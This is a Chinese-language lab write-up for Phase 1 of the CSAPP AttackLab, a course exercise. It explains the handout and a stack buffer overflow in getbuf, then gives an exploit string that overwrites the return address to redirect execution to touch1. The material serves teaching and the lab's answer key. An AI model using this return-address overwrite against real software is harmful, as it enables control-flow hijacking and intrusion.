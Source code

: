 # CSAPP AttackLab 详解
## Part 1 Code Injection Attacks
读入函数：

```c
unsigned getbuf()
{
	char buf[BUFFER_SIZE];
	Gets(buf);
	return 1;
}
```

文档描述如下：For the fifirst three phases, your exploit strings will attack CTARGET. This program is set up in a way that the stack positions will be consistent from one run to the next and so that data on the stack can be treated asexecutable code. These features make the program vulnerable to attacks where the exploit strings contain the byte encodings of executable code.

### Phase 1

文档描述如下：

For Phase 1, you will not inject new code. Instead, your exploit string will redirect the program to execute an existing procedure.Function getbuf is called within CTARGET by a function test having the following C code:

```c
void test()
{ 
	int val;
  	val = getbuf();
  	printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

Your task is to get CTARGET to execute the code for touch1 when getbuf executes its return statement, rather than returning to test. Note that your exploit string may also corrupt parts of the stack not directly related to this stage, but this will not cause a problem, since touch1 causes the program to exit directly.

也就是说我们要构造缓冲区溢出使得test函数中的getbuf的返回地址变为touch1

接下来查看getbuf和touch1的反汇编代码：

![1.1](D:\CSAPP\write-ups\attacklab\1.1.png)

可以看到，touch1函数的起始地址在0x4017c0，getbuf函数给栈空间分配了0x28个地址，故我们要构造的exploit code要占满前40个栈空间后再将touch1的首地址覆盖进栈

构造exploit code如下：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40
```
